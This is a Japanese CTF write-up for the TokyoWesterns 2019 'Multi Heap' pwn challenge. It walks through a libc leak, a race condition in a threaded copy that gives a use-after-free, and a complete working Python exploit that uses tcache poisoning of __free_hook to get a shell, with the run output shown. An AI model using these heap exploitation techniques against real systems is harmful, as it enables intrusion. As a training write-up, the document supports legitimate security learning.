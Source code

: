 # [pwn 279pts] Multi Heap - TokyoWesterns CTF 5th 2019
64ビットバイナリで、全部有効です。
```
$ checksec -f multi_heap
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes     0               4       multi_heap
```
C++製のヒープとか嫌な思い出しかないですが、とりあえずIDAで読みます。
allocではchar,long,floatから選べて、サイズを聞かれてnewされます。
さらにmainかthreadかを選べて、mainの場合はmalloc、threadの場合はスレッドが作られてその中でmallocされます。

なんか適当にやったらとりあえずlibcリークは簡単にできました。
```python
alloc('char', 0x500)
free(0)
alloc('char', 0x80)
libc_base = u64(write(0)[0]) - libc_main_arena - delta
logger.info("libc base = " + hex(libc_base))
```

で、copyのコードを読むと、これもmemcpyするかスレッド立てるかできるのですが、スレッドの方はなんか`usleep(1)`して要素を1つずつコピーしています。
usleepだから動くか怪しいですが、これ普通にrace conditionにならないですかね。

試しに次のようなコードを動かしてみました。
```
alloc('char', 0x400) # 1
alloc('char', 0x400) # 2
read(1, 0x80, p64(libc_base + libc.symbol("__free_hook")) + b'A' * 0x78)
copy(1, 2, 0x400, 'y\n2\n2')
```
そんでfreeされたチャンクを見ると
```
pwndbg> x/8xg 0x560d5b0fe400
0x560d5b0fe400: 0x00007f2155e908e8      0x4141414141414141
0x560d5b0fe410: 0x4141414141414141      0x4141414141414141
0x560d5b0fe420: 0x4141414141414141      0x4141414141414141
0x560d5b0fe430: 0x4141414141414141      0x4141414141414141
```
UAFできてます。勝ち。

```python
from ptrlib import *

def alloc(type, size, main = True):
    sock.sendlineafter("choice: ", "1")
    sock.sendlineafter("Which: ", type)
    sock.sendlineafter("Size: ", str(size))
    sock.recvuntil("): ")
    if main:
        sock.sendline("m")
    else:
        sock.sendline("t")
    return

def free(index):
    sock.sendlineafter("choice: ", "2")
    sock.sendlineafter("Index: ", str(index))
    return

def write(index):
    sock.sendlineafter("choice: ", "3")
    sock.sendlineafter("Index: ", str(index))
    result = []
    while True:
        r = sock.recvline()
        if b'=====' in r: break
        result.append(r)
    return result

def read(index, size, data):
    sock.sendlineafter("choice: ", "4")
    sock.sendlineafter("Index: ", str(index))
    sock.sendlineafter("Size: ", str(size))
    sock.sendline(data)
    return

def copy(src, dst, size, thread):
    sock.sendlineafter("choice: ", "5")
    sock.sendlineafter("index: ", str(src))
    sock.sendlineafter("index: ", str(dst))
    sock.sendlineafter("Size: ", str(size))
    sock.sendlineafter("): ", thread)
    return

libc = ELF("./libc.so.6")
sock = Process("./multi_heap")
libc_main_arena = 0x3ebc40
delta = 1168

# libc leak
alloc('char', 0x500)
free(0)
alloc('char', 0x80)
libc_base = u64(write(0)[0]) - libc_main_arena - delta
logger.info("libc base = " + hex(libc_base))

# UAF by race condition
alloc('char', 0x400) # 1
alloc('char', 0x400) # 2
read(1, 0x80, p64(libc_base + libc.symbol("__free_hook")) + b'A' * 0x78)
copy(1, 2, 0x400, 'y\n2\n2')

# tcache poisoning
alloc('char', 0x400) # 2
alloc('char', 0x400) # 3
read(2, 0x8, '/bin/sh\x00')
read(3, 0x8, p64(libc_base + libc.symbol("system")))

# get the shell!
free(2)

sock.interactive()
```

まじでこれで終わった。
```
$ python solve.py 
[+] __init__: Successfully created new process (PID=10438)
[+] <module>: libc base = 0x7ff6be50f000
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$
```

# 感想
これたぶん非想定解だと思いますが、面倒なのはいやなのでこれで終わりということで......
